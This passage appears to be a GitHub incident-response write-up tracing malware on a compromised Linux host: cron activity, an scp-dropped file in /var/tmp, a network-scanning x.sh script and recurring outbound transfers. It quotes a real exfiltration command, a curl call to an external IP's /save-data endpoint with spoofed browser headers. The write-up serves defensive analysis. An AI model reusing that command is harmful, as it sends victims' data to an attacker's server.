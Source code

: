 ![image](https://github.com/user-attachments/assets/9f3c14dd-4c35-420d-b47f-7688ac5dd5c9)
![image](https://github.com/user-attachments/assets/066b8a45-a88b-4c97-a69d-22a40081e0f6)

From that time until 0343 AM, the user applied updates to the linux machine however the malware was still present as observed at 0344 AM when a CRON to update-logs pattern occured. The device then proceeds as usual with the malware until new behavior from the malware was observed at 0448 AM, this behavior is consistent with data exfiltration when observing the code:


```bash -c 'curl --silent "http://196.251.73.38:47/save-data?IP=200.98.137.5" \
    -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" \
    -H "Accept-Language: en-US,en;q=0.9" \
    -H "Cache-Control: max-age=0" \
    -H "Connection: keep-alive" \
    -H "Upgrade-Insecure-Requests: 1" \
    --insecure'
```


![image](https://github.com/user-attachments/assets/31143b39-2e80-4ca9-963c-3d242ffc0b0a)

This process is trying to exfiltrate data to an external IP 196.251.73.38 using the curl command. It is passing an IP address 200.98.137.5 as a parameter in the URL, possibly representing the internal system IP or another target in the attack chain. The command includes several headers (e.g., Accept, Accept-Language, Connection, etc.), indicating the request is trying to mimic legitimate web traffic, but using the --insecure flag to bypass SSL certificate verification, further supporting that this is malicious.

These logs show that the process repeats itself multiple times, indicating that data exfiltration is continuous. This behavior strongly points to an active and persistent compromise, where the attacker is collecting and sending sensitive information out of the system in small batches to avoid detection. There were 196 occurrences with a total file size of 162,371,104 bytes (around 162 MB).

This behavior would now be observed in addition to the usual malware behavior throughout the rest of the device's activities all the way to 0645 PM to it's last process.

### Device File Events

The creation of the UpzBUBnv file at 0546 AM shows the process command to be scp -qt /var/tmp/UpzBUBnv, The use of scp to copy a file into /var/tmp/, combined with root privileges and previous investigation, confirms a malicious operation, such as downloading a payload or malware to be executed later that we see with Retea process.

![image](https://github.com/user-attachments/assets/5f422313-0324-44a7-a400-8210d95c6838)

Here we see the x.sh file, which is part of the .x/network process and network event that made connection requests to 10.0.0.0 - 255, this is suspected to be both recon into the network, staging for lateral movement and persistence in the network.

![image](https://github.com/user-attachments/assets/9ecdb6ef-1656-46b0-a860-dfb7833f8100)

as mentioned previously, the Retea file, SHA256 94c7c6ca6042201ba200a267a5e0aa4b2d467445bda35a234c1c23dc14359eb7, was created as a result of the UpzBUBnv file. As we have seen before, the retea script is quite lenghty.
